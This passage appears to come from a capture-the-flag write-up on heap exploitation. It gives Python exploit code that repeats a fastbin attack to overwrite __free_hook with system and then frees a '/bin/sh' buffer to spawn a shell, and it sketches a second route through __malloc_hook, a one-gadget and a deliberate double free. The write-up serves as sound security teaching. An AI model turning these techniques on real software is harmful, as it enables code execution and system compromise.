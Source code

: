 The next part was a bit of trial and error. I found out that I would need to do 51 allocations of size 0x48 to get right above `__free_hook`. The 52nd allocation of size 0x48 can be used to overwrite `__free_hook` to the address of `system`.

Each time I allocate a new chunk, I also immediately zero out the first 11 indexes of the global array. Of course this is overkill, but I was being lazy.
```python
# Now there is a reference to fake_chunk (at our name) at idx 11
# This can easily be verified by viewing the array in gdb

# Now, this was a bit of trial and error, but I found out that 51 allocations of size 0x48
# was enough to reach just above __free_hook
# Each time we allocate, we zero out the global array immediately
for i in range(51):
    # Allocate using top chunk
    add(0x48, '\x00'*0x48)

    # Redo the fastbin attack to get a chunk above the global array

    # Free our fake_chunk on the name
    free(11)

    # Change fd to point to fake_chunk_above_array
    reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

    # Two more allocations, zero out the indexes
    add(0x58, 'A'*0x58)
    add(0x58, p64(0)*11)

# After 51 allocations, we can overwrite __free_hook with system
# We have to keep null bytes before it, otherwise the program will crash (I don't know why)
add(0x48, '\x00'*0x35 + p64(system))
```

After this, I simply reset the name variable's first 8 bytes to `'/bin/sh\x00'`, and then freed it. This calls `system("/bin/sh\x00")`, as explained above.
```python
# Then just put '/bin/sh\x00' into our name array
reintroduce(p64(0) + p64(0x61) + '/bin/sh\x00')

# Call free(fake_chunk), which calls system(fake_chunk), which calls system('/bin/sh\x00')
free(11)

p.interactive()
```

#### So what is the other solution?

The other solution is based upon the fact that when you double free a chunk and cause a `double free or corruption (fasttop)` error, it will actually call `malloc` internally. I found out about this from [this blog post](https://blog.osiris.cyber.nyu.edu/2017/09/30/csaw-ctf-2017-auir/).

If you cause a double free, the subsequent call to `malloc` actually meets one of our one gadget's constraints, and thus the solution is then much easier: overwrite the top chunk pointer to `__malloc_hook - 0x15` and then overwrite `__malloc_hook` with the working one gadget and cause a double free to get shell.
